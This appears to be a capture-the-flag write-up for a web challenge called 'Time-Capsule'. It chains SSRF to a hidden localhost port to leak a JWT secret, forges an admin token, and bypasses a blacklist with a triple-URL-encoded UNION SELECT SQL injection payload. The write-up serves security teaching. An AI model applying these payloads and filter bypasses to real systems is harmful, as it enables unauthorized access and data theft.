









# Time-Capsule


When we open the webpage we are greeted with a signup and login page, noticing that we can't progress further we sign up and then login as the user we signed up as.



On inspecting the page we notice a session cookie and a jwt cookie called "token1". On inspecting the contents of both we see that the jwt contains a field called `is_admin` set to `false`, and the session cookie has a field called `port` set to `5001`.






We can say that we probably need to create a jwt token with `is_admin` set to `true` and login however we need the secret key used for jwt. In the question the line

**They say a double agent from a rival company set up hidden compromises that when viewed almost mimic the real one along with other vulnerabilities present in the app**

This evokes some suspicion along with the fact that we have the port 5001 from the session. Lets try inputting the same URL with port 5001 in the view page however we don't get any result from that.

Now let's try `localhost:5001` since the question mentions that it’s hidden and might be running locally in the same server, only accessible to the webpage. We get `success` and we can view that output on the view page,




Trying for other endpoints, the notices page (`http://localhost:5001/notices`) which was initially empty gives the output,



We have finally obtained the jwt cookie and now we can forge a fake jwt with `is_admin` set to `true`. Immediately on setting the token we are redirected to the admin view.

We have utilized all the clues except the source code so let's try to use that. On looking at the route `/adminviewnew/\<string:groupby\>`,
we see that it accepts a URL variable called `groupby` and suspiciously sets it back to `user` in case it contains one of the blacklisted characters. Is there a way we can get past the checker? On observing, we see that no numbers are blacklisted! Let's try placing a number instead of `user` in the request and see the response,





The resulting SQL error tells us this page is vulnerable to SQL injection and looking at the code, the error happens in the `group_by` part of the expression. Let's craft an expression to exploit this,


Based on this error message we obtain,
```
user UNION select * from messages where user='admin'
```
This payload should work. However we still need to bypass the filtering being performed. The page also doesn't filter the `%` symbol. Based on this, so let's try URL encoding the payload like,
```
%75%73%65%72%20%55%4E%49%4F%4E%20%73%65%6C%65%63%74%20%2A%20%66%72%6F%6D%20%6D%65%73%73%61%67%65%73%20%77%68%65%72%65%20%75%73%65%72%3D%27%61%64%6D%69%6E%27
```
However, this presents a problem as this payload also contains letters. Let's go back to the source code and analyze the behavior of the route. On some simple testing, we see that when taking the variable from the URL, flask auto URLdecodes it once, and on testing `unquote`() and `urlpath.URL()` we see that they also decode percent encoding, So now, let's try and run the payload through the URL encoder 3 times,
```
%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%32%25%33%30%25%32%35%25%33%35%25%33%35%25%32%35%25%33%34%25%34%35%25%32%35%25%33%34%25%33%39%25%32%35%25%33%34%25%34%36%25%32%35%25%33%34%25%34%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%34%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%32%25%34%31%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%34%36%25%32%35%25%33%36%25%34%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%34%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%33%38%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%33%25%34%34%25%32%35%25%33%32%25%33%37%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%34%34%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%34%35%25%32%35%25%33%32%25%33%37
```
 On submitting this, we get the flag



